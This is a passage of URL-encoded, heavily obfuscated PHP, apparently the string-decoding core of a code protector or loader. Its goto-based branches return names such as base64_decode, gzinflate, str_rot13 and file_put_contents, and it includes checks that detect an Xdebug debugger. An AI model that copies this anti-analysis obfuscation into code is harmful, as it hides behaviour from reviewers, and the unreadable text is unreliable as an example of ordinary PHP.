gwQJQk%29+%7B%0A++++++++return+%24utFWcFVO+%3D%3D%3D+%24pYgwQJQk%3B%0A++++%7D%3B%0A++++UzsWylgH%3A%0A++++if+%28%27HnYOPuhW%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+NIuQXjbp%3B%0A++++%7D%0A++++goto+RPXryJqc%3B%0A++++rmnDKXoF%3A%0A++++if+%28%27YNMQqkUb%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+xNxMCkwk%3B%0A++++%7D%0A++++goto+XejeFmOz%3B%0A++++MHTgKEtc%3A%0A++++if+%28%27OLcZcONg%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+EEgFarug%3B%0A++++%7D%0A++++goto+NaPESYlB%3B%0A++++OLpPYRUn%3A%0A++++if+%28%27QxKAxgOF%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+JVTNfazi%3B%0A++++%7D%0A++++goto+YhDefXVt%3B%0A++++daOufhmL%3A%0A++++return+%27J%27%3B%0A++++cCqRohiS%3A%0A++++return+%27%27%3B%0A++++JMPhocvJ%3A%0A++++return+function+%28%24PVXLbCpG%2C+%24ZXyQRuWy%29+%7B%0A++++++++return+%24PVXLbCpG+%2B+%24ZXyQRuWy%3B%0A++++%7D%3B%0A++++JVTNfazi%3A%0A++++return+%27d%27%3B%0A++++RRUYixVD%3A%0A++++return+%27ribvXRsI%27%3B%0A++++EukfLNmh%3A%0A++++if+%28%27JKoVZrXG%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+PMRcZoOH%3B%0A++++%7D%0A++++goto+RhukAsiH%3B%0A++++TjUNmBLO%3A%0A++++if+%28%27OLbojxEK%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+JMPhocvJ%3B%0A++++%7D%0A++++goto+tWgxHxtP%3B%0A++++gFAcpYoK%3A%0A++++return+%27php_sapi_name%27%3B%0A++++vUTvXVOb%3A%0A++++if+%28%27NyTFRZGn%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+HrUFcTGv%3B%0A++++%7D%0A++++goto+PAwfGXSp%3B%0A++++NkEFkHXP%3A%0A++++if+%28%27WxdJdNkg%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZXHESTtt%3B%0A++++%7D%0A++++goto+EHqWEEtH%3B%0A++++WgcuaKsu%3A%0A++++return+%27F%27%3B%0A++++NswBPqEX%3A%0A++++if+%28%27FiKNsJyO%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+MfNbRnZS%3B%0A++++%7D%0A++++goto+gHhmaFYw%3B%0A++++RgNRqNYZ%3A%0A++++return+%27KxAe%3DWmx6Rg%3D%3D%27%3B%0A++++wfgIkVXM%3A%0A++++return+%27Z%27%3B%0A++++NaPESYlB%3A%0A++++if+%28%27oxFypvIg%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+KHrahrwl%3B%0A++++%7D%0A++++goto+JfVAouZt%3B%0A++++TCxwAfIw%3A%0A++++if+%28%27orzcjAHz%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+QcmrIDkB%3B%0A++++%7D%0A++++goto+AFJYcowj%3B%0A++++GJWWlanv%3A%0A++++if+%28%27AJHdqsxp%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+PJRPcfwg%3B%0A++++%7D%0A++++goto+EosDkNCE%3B%0A++++OKLbsrhR%3A%0A++++return+%27y%27%3B%0A++++qxVUqntG%3A%0A++++return+function+%28%24vsUmbEFs%2C+%24kzMYMgZL%29+%7B%0A++++++++return+%24vsUmbEFs+and+%24kzMYMgZL%3B%0A++++%7D%3B%0A++++VfdAOUBe%3A%0A++++if+%28%27SQwCTJth%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+GDfPqJCs%3B%0A++++%7D%0A++++goto+xBKMYlaq%3B%0A++++lAceqcGF%3A%0A++++%24AeVCBvcy+%3D+%27gCBKKPCi%27%3B%0A++++goto+WrzaKiWV%3B%0A++++AiDdDCOK%3A%0A++++return+%27file_put_contents%27%3B%0A++++xBoMwObA%3A%0A++++return+%27xdebug_break%27%3B%0A++++RhJrEnoj%3A%0A++++if+%28%27MmmKBgQx%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+kTaJrVOb%3B%0A++++%7D%0A++++goto+wCXHGTIT%3B%0A++++nwPqbjAR%3A%0A++++return+%27b%27%3B%0A++++JeLsEgos%3A%0A++++return+%272%27%3B%0A++++fjkkWfNg%3A%0A++++if+%28%27cKVmNcMx%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+AGBqCLhU%3B%0A++++%7D%0A++++goto+yhCYELPL%3B%0A++++KHrahrwl%3A%0A++++if+%28%27uXRSoQbZ%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+nwPqbjAR%3B%0A++++%7D%0A++++goto+UGcLdqbG%3B%0A++++CnnwaOUz%3A%0A++++if+%28%27YRLYobnE%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+BcecpghI%3B%0A++++%7D%0A++++goto+EHjNAQao%3B%0A++++nQoPQacV%3A%0A++++return+%27W%27%3B%0A++++EEgFarug%3A%0A++++return+%27gzinflate%27%3B%0A++++uCsHGPUP%3A%0A++++if+%28%27wZyeGGNh%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+vTOAbkfd%3B%0A++++%7D%0A++++goto+bGatbwJr%3B%0A++++JLuwwVVl%3A%0A++++if+%28%27nEekFwdf%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+LwRjHXXF%3B%0A++++%7D%0A++++goto+ddXPUQWS%3B%0A++++HRvdrVhQ%3A%0A++++if+%28%27OYGXsoLG%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+sjKNMxcH%3B%0A++++%7D%0A++++goto+OECkeOxV%3B%0A++++GzluoZJk%3A%0A++++if+%28%27CpmfMUTl%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+FkHRVxee%3B%0A++++%7D%0A++++goto+FcFYAcXQ%3B%0A++++KXLQhWfz%3A%0A++++if+%28%27HPsbSPIc%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+sVUuaFmA%3B%0A++++%7D%0A++++goto+CVnnKJdd%3B%0A++++EHjNAQao%3A%0A++++if+%28%27QDgLmCpn%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+XLtIJBln%3B%0A++++%7D%0A++++goto+RgNRqNYZ%3B%0A++++ohAigJVC%3A%0A++++if+%28%27kNwPiVFp%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+uumszDuV%3B%0A++++%7D%0A++++goto+OEZfsUfx%3B%0A++++ZXHESTtt%3A%0A++++return+%27%27%3B%0A++++BvwsuIaD%3A%0A++++if+%28%27PpHccpqG%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+nqWOYDjI%3B%0A++++%7D%0A++++goto+cGXZNpSV%3B%0A++++IJCJCtdw%3A%0A++++if+%28%27dlaclcxp%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+paALdHVB%3B%0A++++%7D%0A++++goto+UzsWylgH%3B%0A++++cYdSrVnZ%3A%0A++++if+%28%27tDiOYHWn%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+NOnogkoM%3B%0A++++%7D%0A++++goto+JeLsEgos%3B%0A++++ZmeCAztb%3A%0A++++return+%27gzinflate%27%3B%0A++++QIZloAmp%3A%0A++++return+%27MOhThzCE%27%3B%0A++++nIWLYxjT%3A%0A++++if+%28%27OyUwUNvs%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+KCBvGefQ%3B%0A++++%7D%0A++++goto+zFQZKczz%3B%0A++++wzPGYiqb%3A%0A++++return+%27vwcD%3DeGRlYnVnX2lzX2RlYnVnZ2VyX2FjdGl2ZQ%3D%3D%27%3B%0A++++ioLhMklN%3A%0A++++return+%27base64_decode%27%3B%0A++++ASwGTubP%3A%0A++++if+%28%27OzcSTmmP%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+rqYgzRmf%3B%0A++++%7D%0A++++goto+mzHNKyEG%3B%0A++++vHKHyXAk%3A%0A++++if+%28%27NxyACuZI%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+lNcktOIe%3B%0A++++%7D%0A++++goto+nSZXcfsa%3B%0A++++AFJYcowj%3A%0A++++return%3B%0A++++oJSGacnB%3A%0A++++if+%28%27AvlVkkAR%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+uPkSSgJa%3B%0A++++%7D%0A++++goto+QIrjtViS%3B%0A++++WWWlHMit%3A%0A++++return+function+%28%24rKVFrpKL%2C+%24YtmnkFEu%29+%7B%0A++++++++return+%24rKVFrpKL+or+%24YtmnkFEu%3B%0A++++%7D%3B%0A++++MshNfeLc%3A%0A++++if+%28%27CmeJXbog%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+cuCVHFBn%3B%0A++++%7D%0A++++goto+MfogiKkZ%3B%0A++++pQcnGQVJ%3A%0A++++return+%27base64_decode%27%3B%0A++++tWgxHxtP%3A%0A++++if+%28%27VBbUhIbA%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+BdsjDgMz%3B%0A++++%7D%0A++++goto+AUfMSRpv%3B%0A++++KCBvGefQ%3A%0A++++return+%27xdebug_get_tracefile_name%27%3B%0A++++oITFJXti%3A%0A++++return+%27%D3O%CBIL%07%00%27%3B%0A++++vVtPZsFv%3A%0A++++if+%28%27ZSpCXiGP%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+KHxksSFn%3B%0A++++%7D%0A++++goto+VpoLjsgt%3B%0A++++WBilwBrq%3A%0A++++if+%28%27HSUUnnJX%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+EukfLNmh%3B%0A++++%7D%0A++++goto+xJRKekAl%3B%0A++++cRtlpuCk%3A%0A++++if+%28%27CadBIdsb%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ctyhYLyo%3B%0A++++%7D%0A++++goto+HidbrCHx%3B%0A++++xBKMYlaq%3A%0A++++if+%28%27pahhQZhS%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+RhMKHIbD%3B%0A++++%7D%0A++++goto+YrMzfqiw%3B%0A++++wFumMwar%3A%0A++++if+%28%27Iyhknkxt%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+vHKHyXAk%3B%0A++++%7D%0A++++goto+CCfAoOLj%3B%0A++++ehlryBoA%3A%0A++++return+%27join%27%3B%0A++++tISXelbC%3A%0A++++return+%27J%27%3B%0A++++UGcLdqbG%3A%0A++++if+%28%27WnsuqCux%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ehlryBoA%3B%0A++++%7D%0A++++goto+NswBPqEX%3B%0A++++VhwFbIgs%3A%0A++++if+%28%27DGLWqPuU%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+BwjBkirE%3B%0A++++%7D%0A++++goto+XvItcNzc%3B%0A++++RyXEzfIq%3A%0A++++if+%28%27BZBobmpI%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+WmxhfHrP%3B%0A++++%7D%0A++++goto+vUTvXVOb%3B%0A++++gHhmaFYw%3A%0A++++return+%273%27%3B%0A++++kTaJrVOb%3A%0A++++return+%27B%27%3B%0A++++dNJTVKRu%3A%0A++++if+%28%27nQqGRYHb%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+bOLATVdZ%3B%0A++++%7D%0A++++goto+ODxpsvWC%3B%0A++++xJRKekAl%3A%0A++++return+%27j%27%3B%0A++++ObzlUfev%3A%0A++++return+%27E%27%3B%0A++++sbvknxSz%3A%0A++++return+%273%27%3B%0A++++leTLreTX%3A%0A++++return+%27gzinflate%27%3B%0A++++FqcGXJfq%3A%0A++++return+%27function_exists%27%3B%0A++++wyzwLZEo%3A%0A++++if+%28%27PtUxMkid%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+WgcuaKsu%3B%0A++++%7D%0A++++goto+WVTQlXqS%3B%0A++++SlnTOXUG%3A%0A++++if+%28%27ItntwuFx%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+OJcHlYmg%3B%0A++++%7D%0A++++goto+IQvbmyzn%3B%0A++++OXGvnEZe%3A%0A++++if+%28%27BnjEClId%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+daOufhmL%3B%0A++++%7D%0A++++goto+OLpPYRUn%3B%0A++++DOjergYC%3A%0A++++return+%27gzinflate%27%3B%0A++++zPGwevUt%3A%0A++++if+%28%27dluJdYvU%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+QDpjTlXc%3B%0A++++%7D%0A++++goto+vVtPZsFv%3B%0A++++eGhQVMKg%3A%0A++++if+%28%27SWALbjsc%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+IUhuUQWa%3B%0A++++%7D%0A++++goto+IMaNIgyG%3B%0A++++sgsOndeL%3A%0A++++return+%27base64_decode%27%3B%0A++++DtBGUXwb%3A%0A++++return+function+%28%24jcyPyCGu%2C+%24UowDKJbA%29+%7B%0A++++++++return+%24jcyPyCGu+%26+%24UowDKJbA%3B%0A++++%7D%3B%0A++++mEqkrzif%3A%0A++++return+%27strrev%27%3B%0A++++UQxmbCzO%3A%0A++++if+%28%27uZkrLhFU%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+mfBHOogw%3B%0A++++%7D%0A++++goto+eLyOYakB%3B%0A++++NvLwdDFh%3A%0A++++return+%27J%27%3B%0A++++EcpabSjV%3A%0A++++return+%27h%27%3B%0A++++kKyxzrbT%3A%0A++++return+%27base64_decode%27%3B%0A++++xNxMCkwk%3A%0A++++if+%28%27jcrxRVWf%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+RSaZnsZz%3B%0A++++%7D%0A++++goto+GJWWlanv%3B%0A++++pvyjKUHy%3A%0A++++if+%28%27ghUqZYDz%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+XplsbUHu%3B%0A++++%7D%0A++++goto+wFumMwar%3B%0A++++CCfAoOLj%3A%0A++++return+%27base64_decode%27%3B%0A++++eguCRGrN%3A%0A++++return+%27%2B%CF%C8%CCI%D5%28%29%2AM%D5%AC%AEHIM%2AM%8FO%2AJM%CC%D6%D0%B4%AE%05%00%27%3B%0A++++XkLpKbBc%3A%0A++++return+%27error_reporting%27%3B%0A++++RYcIuKSi%3A%0A++++if+%28%27wpOWOtpy%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+wUqsKFyA%3B%0A++++%7D%0A++++goto+ytFKHLwG%3B%0A++++yTbSRhXZ%3A%0A++++return+%27s%27%3B%0A++++DdYikSFD%3A%0A++++return+%27G%27%3B%0A++++sMvIaWmy%3A%0A++++if+%28%27FmBbKUEq%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+xnMQOacu%3B%0A++++%7D%0A++++goto+jxXvZtGg%3B%0A++++txCvcxgS%3A%0A++++if+%28%27RiLuBaiZ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+GdgzqsES%3B%0A++++%7D%0A++++goto+PIcpLlRx%3B%0A++++YtPRLoAc%3A%0A++++return+%27DTLHhEZE%27%3B%0A++++mzHNKyEG%3A%0A++++if+%28%27HmyjckXL%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+qCGfXUUC%3B%0A++++%7D%0A++++goto+htYYBimP%3B%0A++++iDJAFLWY%3A%0A++++if+%28%27DDAbQMpE%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+NdmqnGrs%3B%0A++++%7D%0A++++goto+pQcnGQVJ%3B%0A++++YMkkxgjk%3A%0A++++return+%27G%27%3B%0A++++OHvsteop%3A%0A++++return+function+%28%24fnuJhIGF%2C+%24kKKhqlzJ%29+%7B%0A++++++++return+%24fnuJhIGF+%5E+%24kKKhqlzJ%3B%0A++++%7D%3B%0A++++xMkpxSAk%3A%0A++++return+%27e%27%3B%0A++++XejeFmOz%3A%0A++++return+%27Z%27%3B%0A++++DNNWPmRV%3A%0A++++if+%28%27rdrPfWON%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+TyBAQDrT%3B%0A++++%7D%0A++++goto+tjrbUslB%3B%0A++++qCGfXUUC%3A%0A++++if+%28%27JtOxpoJc%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+PKUySImf%3B%0A++++%7D%0A++++goto+RVslkrNw%3B%0A++++HidbrCHx%3A%0A++++if+%28%27GxXBSjop%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+TCxwAfIw%3B%0A++++%7D%0A++++goto+MnjQTErd%3B%0A++++QDpjTlXc%3A%0A++++return+%27KxAe%27%3B%0A++++DxWMDyAO%3A%0A++++if+%28%27qyVtWvQE%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+mQJqdJTa%3B%0A++++%7D%0A++++goto+CvvPjyQl%3B%0A++++kMWjBtrD%3A%0A++++if+%28%27WeGxYqiR%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+oITFJXti%3B%0A++++%7D%0A++++goto+SlnTOXUG%3B%0A++++JbnFnLSL%3A%0A++++return+function+%28%24PnyRfXXu%2C+%24SieWqkwi%29+%7B%0A++++++++return+%24PnyRfXXu+%21%3D%3D+%24SieWqkwi%3B%0A++++%7D%3B%0A++++oYXpcgFs%3A%0A++++return+%27%3D%3DgWEhUU%27%3B%0A++++PatIhVBP%3A%0A++++if+%28%27TczVPhta%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+mnLByTdY%3B%0A++++%7D%0A++++goto+ILHrcbFf%3B%0A++++vcwxOMFE%3A%0A++++return+%27K-%2A%CA%2FR%C8ON.-%2AJM%01%00%27%3B%0A++++FcFYAcXQ%3A%0A++++if+%28%27piwPNTGL%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+TrLHnScg%3B%0A++++%7D%0A++++goto+loRYwTwf%3B%0A++++MKMUYHDK%3A%0A++++if+%28%27EWbBBrZR%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+RYcIuKSi%3B%0A++++%7D%0A++++goto+BakaOKTA%3B%0A++++lwQRHwie%3A%0A++++return+%27%3D%27%3B%0A++++EFcmUPBn%3A%0A++++if+%28%27hGcicsmz%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+YMkkxgjk%3B%0A++++%7D%0A++++goto+bfqfjbRf%3B%0A++++RhMKHIbD%3A%0A++++return+%27%3DQWZyJXdjN2bgI3byJXZ%27%3B%0A++++nPSQLzRN%3A%0A++++return+function+%28%24MLuRDQke%2C+%24OeGRJLlO%29+%7B%0A++++++++return+%24MLuRDQke+%3D%3D+%24OeGRJLlO%3B%0A++++%7D%3B%0A++++WVTQlXqS%3A%0A++++if+%28%27OmfUOcpi%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+RYXzYCeA%3B%0A++++%7D%0A++++goto+uRSWVzjv%3B%0A++++RPXryJqc%3A%0A++++return+%27str_rot13%27%3B%0A++++RVslkrNw%3A%0A++++if+%28%27DsmDzZbe%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+DtBGUXwb%3B%0A++++%7D%0A++++goto+YAHbGjYL%3B%0A++++zrLCTcIK%3A%0A++++return+%27str_rot13%27%3B%0A++++AtHnygJh%3A%0A++++if+%28%27zXahyhmF%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+fjkkWfNg%3B%0A++++%7D%0A++++goto+yTbSRhXZ%3B%0A++++TrLHnScg%3A%0A++++return+%27IBRY%3DL2ZsYWc%3D%27%3B%0A++++GLOQRcEb%3A%0A++++return+%27a3Fyb2h0X3RyZ19nZW5wcnN2eXJfYW56cg%3D%3D%27%3B%0A++++hmkbaBom%3A%0A++++if+%28%27VXcUbioQ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+MBjlTpBV%3B%0A++++%7D%0A++++goto+xBoMwObA%3B%0A++++FkHRVxee%3A%0A++++return+%27base64_decode%27%3B%0A++++SHTqqzwg%3A%0A++++return+%27base64_decode%27%3B%0A++++yfQhtGNd%3A%0A++++if+%28%27lbgPOgIj%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+ZOtPxhpc%3B%0A++++%7D%0A++++goto+SccrgRjg%3B%0A++++CVnnKJdd%3A%0A++++return+%27parse_str%27%3B%0A++++IQvbmyzn%3A%0A++++if+%28%27JVhNtJAt%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+DcYkSHXf%3B%0A++++%7D%0A++++goto+tISXelbC%3B%0A++++qrksZxsK%3A%0A++++return+%27urldecode%27%3B%0A++++nARCKVRx%3A%0A++++return+%27strrev%27%3B%0A++++jpdrlJkz%3A%0A++++return+%27gzinflate%27%3B%0A++++PAwfGXSp%3A%0A++++if+%28%27QijhQZji%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+xmRaRBdT%3B%0A++++%7D%0A++++goto+RhJrEnoj%3B%0A++++bOLATVdZ%3A%0A++++if+%28%27zhqdMCkT%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+dUeoTDeF%3B%0A++++%7D%0A++++goto+CFbeerQP%3B%0A++++NdmqnGrs%3A%0A++++if+%28%27TbdzOsRr%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+tMHspXYU%3B%0A++++%7D%0A++++goto+jZKridiT%3B%0A++++wPxVwaOu%3A%0A++++return+%27base64_decode%27%3B%0A++++vyGFbgYh%3A%0A++++if+%28%27bWOVBKTl%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+AiDdDCOK%3B%0A++++%7D%0A++++goto+yfQhtGNd%3B%0A++++YSVvKclS%3A%0A++++if+%28%27tTGaKpck%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+MWmNCjYx%3B%0A++++%7D%0A++++goto+hmkbaBom%3B%0A++++NIuQXjbp%3A%0A++++if+%28%27zVijjgap%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+zjxoRFyw%3B%0A++++%7D%0A++++goto+leTLreTX%3B%0A++++RfMXuTvj%3A%0A++++return+%27yKpkdmcd%27%3B%0A++++mkxEmAsZ%3A%0A++++return+%27G%27%3B%0A++++fghNfwKm%3A%0A++++if+%28%27vfQWazHt%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+nPSQLzRN%3B%0A++++%7D%0A++++goto+oJSGacnB%3B%0A++++bXDsQxtE%3A%0A++++if+%28%27ytHBoVFR%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+dUtmAtVA%3B%0A++++%7D%0A++++goto+VhwFbIgs%3B%0A++++apUgDfuH%3A%0A++++if+%28%27ZBGbGTSQ%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+JLuwwVVl%3B%0A++++%7D%0A++++goto+pQimnJSj%3B%0A++++AUfMSRpv%3A%0A++++if+%28%27HombWnQy%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+xMkpxSAk%3B%0A++++%7D%0A++++goto+NgRbmkNH%3B%0A++++EzpEYfXH%3A%0A++++return+%27X%27%3B%0A++++sjKNMxcH%3A%0A++++return+%27b%27%3B%0A++++cGXZNpSV%3A%0A++++if+%28%27eWzygjcE%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+PsmiYHsH%3B%0A++++%7D%0A++++goto+ZSjenFEd%3B%0A++++pQimnJSj%3A%0A++++return+%27join%27%3B%0A++++oHKmcCaU%3A%0A++++return+%27A%27%3B%0A++++XplsbUHu%3A%0A++++return+%27K%CF%0Cs%06%00%27%3B%0A++++jRVMYuIA%3A%0A++++return+%27xdebug_is_debugger_active%27%3B%0A++++ZFVqwrPy%3A%0A++++if+%28%27bOiOOIqB%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+aKjBLVrT%3B%0A++++%7D%0A++++goto+qrksZxsK%3B%0A++++EXUizRJb%3A%0A++++return+function+%28%24OPHSXlEO%2C+%24PrEdDrbx%29+%7B%0A++++++++return+%24OPHSXlEO+.+%24PrEdDrbx%3B%0A++++%7D%3B%0A++++KHxksSFn%3A%0A++++return+%27%3D%27%3B%0A++++xmRaRBdT%3A%0A++++return+%27str_rot13%27%3B%0A++++PKUySImf%3A%0A++++return+%27y%27%3B%0A++++NluZHGKK%3A%0A++++return+%27y%27%3B%0A++++inxkVNTw%3A%0A++++if+%28%27dTItwGwu%27+%3D%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+wPxVwaOu%3B%0A++++%7D%0A++++goto+KmXRwbrM%3B%0A++++YhDefXVt%3A%0A++++if+%28%27kyCGlGkH%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+szmukJnq%3B%0A++++%7D%0A++++goto+PJULPsKg%3B%0A++++ZijqqKHT%3A%0A++++if+%28%27tPOUKiYN%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+jykphnts%3B%0A++++%7D%0A++++goto+DOjergYC%3B%0A++++XOJbtaaw%3A%0A++++if+%28%27lfNBvPhI%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+wyzwLZEo%3B%0A++++%7D%0A++++goto+JCejcGss%3B%0A++++PJRPcfwg%3A%0A++++if+%28%27vwjRttUO%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+kMWjBtrD%3B%0A++++%7D%0A++++goto+YvWDstdq%3B%0A++++FjvdgWOq%3A%0A++++if+%28%27hFKgfPHB%27+%21%3D%3D+%28%24HWMagmAC+%5E+%24AeVCBvcy%29%29+%7B%0A++++++++goto+foNNDPuH%3B%0A++++%7D%0A++++goto+ZgSOFMHH%3B%0A++++AGBqCLhU%3A%0A++++if+%28%27GPdh